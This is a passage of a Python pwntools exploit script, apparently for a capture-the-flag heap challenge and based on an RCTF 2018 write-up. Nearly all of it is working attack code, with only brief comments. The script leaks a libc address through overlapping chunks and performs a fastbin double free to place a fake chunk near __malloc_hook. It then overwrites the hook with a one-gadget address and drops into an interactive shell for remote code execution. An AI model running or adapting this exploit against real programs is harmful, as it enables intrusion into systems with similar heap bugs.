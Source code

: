 ```
#Free chunk 2, which will consolidate with chunk 0, thus start allocating space before chunk 0 and allowing us to overflow it
delete(2)

#allocate space to push a libc address into the content section for Chunk 0
alloc(0xf0, '5'*0xf0)# Chunk 1

#Print the contents of chunk 0, which will leak a libc address. Filter it out and calculate the other addresses needed
show(0)
print target.recvuntil("content: ")
leak = u64(target.recv(6) + "\x00\x00")
libc = leak - elf.symbols['__malloc_hook'] - 0x68
fake_chunk = libc + elf.symbols['__malloc_hook'] - 0x23
oneshot = libc + 0x4526a
log.info("Leak is:   " + hex(leak))
log.info("Libc is:   " + hex(libc))
log.info("Chunk is:  " + hex(fake_chunk))
log.info("System is: " + hex(oneshot))

#Free chunk 1 to make space fot he new chunks
delete(1)

#Allocate the other chunks to be freed, which will lead to the double free
alloc(0x10, '6'*0x10)# Chunk 1
alloc(0x60, '7'*0x60)# Chunk 1
alloc(0x60, '8'*0x60)# Chunk 4
alloc(0x60, '9'*0x60)# Chunk 5, directly overlaps with Chunk 0

#Free chunks 5, 4, and 0, to free the same address (5 & 0) twice
delete(5)
delete(4)
delete(0)


#Allocate three spaces and get our fake chunk added to the list of free chunks 
alloc(0x60, p64(fake_chunk) + p64(0) + 'w'*0x50)
alloc(0x60, 'x'*0x60)
alloc(0x60, 'y'*0x60)

#Allocate new space to write over the malloc hook
alloc(0x60, 'z'*0x13 + p64(oneshot) + "\n")

#Just have the code call calloc again to get rce
target.sendlineafter("choice: ", "1")
target.sendlineafter(": ", "1")

#Drop to an interactive shell to use the shell
target.interactive()

#This exploit is based off of: https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/
```
